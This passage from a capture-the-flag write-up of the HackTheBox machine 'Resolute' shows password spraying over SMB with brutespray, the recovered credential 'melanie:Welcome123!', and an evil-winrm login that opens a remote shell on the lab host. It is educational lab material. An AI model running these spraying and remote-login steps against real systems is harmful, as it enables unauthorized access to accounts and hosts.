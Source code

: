 This attempt is unsuccessful; it appears that our credentials are invalid. However, we do have a list of users returned from our enum4linux results and we have a potential password. We can use the tool `brutespray` to spray these credentials against SMB (brutespray does not support spraying WinRM); a valid SMB login will hopefully also mean we can authenticate into WinRM with the same credentials. To use brutespray, first we have to output an nmap scan to an xml format so that brutespray can work with it. We can do this with `nmap 10.10.10.169 -p 139,445 -oX scan.xml`. After that, compile a userlist from the enum4linux results.

```
┌──(root💀kali)-[/home/kali/HackTheBox/Resolute]
└─# brutespray -f scan.xml -i
//The -i flag specifies interactive mode

Available services to brute-force:
Service: smbnt on port 445 with 1 hosts

Enter services you want to brute - default all (ssh,ftp,etc): smbnt
Enter the number of parallel threads (default is 2): 2
Enter the number of parallel hosts to scan per service (default is 1): 1
Would you like to specify a wordlist? (y/n): y
Enter a userlist you would like to use: userlist
Enter a passlist you would like to use: 
Would to specify a single username or password (y/n): y
Enter a password: Welcome123!
```

The output will then be sent to: `./brutespray-output`, and a success file should be found in there. Reading it with `cat ./brutespray-output/445-smbnt-success.txt` yields:

```
[+] ACCOUNT FOUND: [smbnt] Host: 10.10.10.169 User: melanie Password: Welcome123! [SUCCESS (ADMIN$ - Access Denied)]
```

This is interesting to note, because none of the other usernames had successes returned by brutespray. This means that the combination `melanie:Welcome123!` successfully authenticated into SMB, however, they were unable to access the ADMIN$ share. Now that we know a valid credential combination, we can try to authenticate into WinRM again.

```
┌──(root💀kali)-[/home/kali/HackTheBox/Resolute]
└─# evil-winrm -i 10.10.10.169 -u 'melanie' -p 'Welcome123!'

Evil-WinRM shell v3.3
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\melanie\Documents> 
```

Sweet. And the user flag is in our Desktop directory too. That wasn't too bad. From here, because this is an Active Directory computer we are working with, I would like to run Bloodhound to find Privilege Escalation and Lateral Movement steps. The specifics of how to set up and run Bloodhound can be found on my blog, so I'll keep it short here. We're just going to gather some data to pass into Bloodhound.

